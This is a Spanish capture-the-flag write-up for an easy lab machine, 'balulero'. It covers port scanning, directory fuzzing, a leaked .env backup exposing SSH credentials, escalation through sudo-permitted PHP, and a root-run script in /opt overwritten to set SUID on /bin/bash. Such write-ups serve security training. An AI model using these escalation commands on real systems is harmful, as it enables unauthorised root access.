






# Máquina balulero

---

Dificultad -> Fácil

---

Empezamos con nmap para ver puertos y servicios

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fb:64:7a:a5:1f:d3:f2:73:9c:8d:54:8b:65:67:3b:11 (RSA)
|   256 47:e1:c1:f2:de:f5:80:0e:10:96:04:95:c2:80:8b:76 (ECDSA)
|_  256 b1:c6:a8:5e:40:e0:ef:92:b2:e8:6f:f3:ad:9e:41:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mi Landing Page - Ciberseguridad
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos los puertos 80 y 22 asi que entro desde el navegador



En la web podemos encontrar una página sobre Balú, un perro, como no encuentro mucho mas, hago fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/index.html           (Status: 200) [Size: 9487]
/script.js            (Status: 200) [Size: 2822]
/imagenes.js          (Status: 200) [Size: 398]
/server-status        (Status: 403) [Size: 275]
/whoami               (Status: 301) [Size: 309] [--> http://172.17.0.2/whoami/]
```

Podemos ver 2 scripts (que también se podrían haber visto en el debugger si hubiera buscado más) en el imagenes.js no se ve nada interesante pero en script.js hace un log donde habla sobre un .env 



Nos habla de que a quitado el acceso al .env pero hay una copia llamada .env_de_baluchingon visible asi que pruebo a acceder a ella desde **`http://172.17.0.2/.env_de_baluchingon`** 



Aquí podemos ver un recovery login con el que podemos acceder con ssh.

Una vez dentro de la máquina por ssh, como siempre hacemos un **`sudo -l`** 

 

Vemos que podemos escalar a chocolate con el binario de php asi que busco en [GTFOBins](https://gtfobins.github.io/) y ejecuto lo siguiente

```shell
sudo -u chocolate php -r "system('/bin/bash');"
```

Asi escalamos al usuario chocolate con el que volvemos ha hacer un **`sudo -l`** pero me pide la contraseña de chocolate que no tenemos, pruebo a buscar archivos con permisos SUID con **`find / -perm -4000 2>/dev/null`** pero tampoco encuentro nada interesante



Despues de buscar un poco encuentro un script php en /opt, dentro del script no hay nada interesante y como no lo podemos ejecutar como sudo no podemos hacer nada, pero no encuentro nada más asi que tendremos que hacer algo con este script.

Solo se me ocurre ver si root esta ejecutando el script en segundo plano, asi que con **`ps aux`** miro los procesos activos y en efecto encuentro que root ejecuta el script php


Sabiendo esto, pongo dentro del archivo que se ejecute un comando que nos de privilegios SUID a la bash.

```shell
echo '<?php system("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

Con chmod u+s /bin/bash decimos que le ponga el permiso SUID `+s` al binario `/bin/bash` para propietario del archivo `u` y asi poder abrir una bash como root

Esperamos un par de segundos a que se ejecute el script en segundo plano y con `bash -p` abrimos una bash con permisos



Y somos root :)
